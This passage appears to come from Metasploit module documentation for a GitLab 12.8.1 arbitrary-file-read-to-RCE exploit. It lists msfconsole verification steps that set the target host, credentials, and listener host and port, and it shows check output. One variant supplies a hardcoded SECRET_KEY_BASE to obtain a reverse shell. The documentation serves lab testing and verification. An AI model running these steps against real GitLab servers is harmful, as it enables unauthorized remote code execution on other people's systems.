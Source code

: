 Once finished, kill the running docker container with:

```
docker kill gitlab
```

## Verification Steps

Check:

1. Run the application
1. Start msfconsole
1. `use exploit/multi/http/gitlab_file_read_rce`
1. `set RPORT <port>`
1. `set RHOST <ip>`
1. `set USERNAME test@example.com`
1. `set PASSWORD password123`
1. `check`

```
[*] 10.10.10.111:9999 - The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
```

Run:

1. Run the application
1. Start msfconsole
1. `use exploit/multi/http/gitlab_file_read_rce`
1. `set RPORT <port>`
1. `set RHOST <ip>`
1. `set USERNAME test@example.com`
1. `set PASSWORD password123`
1. `set LPORT <port>`
1. `set LHOST <ip>`
1. `run`
1. You should get a shell.

Specifying a `SECRET_KEY_BASE` to avoid the arbitrary file read:

1. Run the application
1. Start msfconsole
1. `use exploit/multi/http/gitlab_file_read_rce`
1. `set RPORT <port>`
1. `set RHOST <ip>`
1. `set SECRET_KEY_BASE 301ee96a664dc634b8766368d26b4ef4deb46c593490dc1f39526e0f278f2dfcb9f5c9bb13c74b5377848259a533c9ad137885c01a4387deb799e14589a6fbac`
1. `set LPORT <port>`
1. `set LHOST <ip>`
1. `run`
1. You should get a shell.

## Scenarios

### Arbitrary File Read to RCE
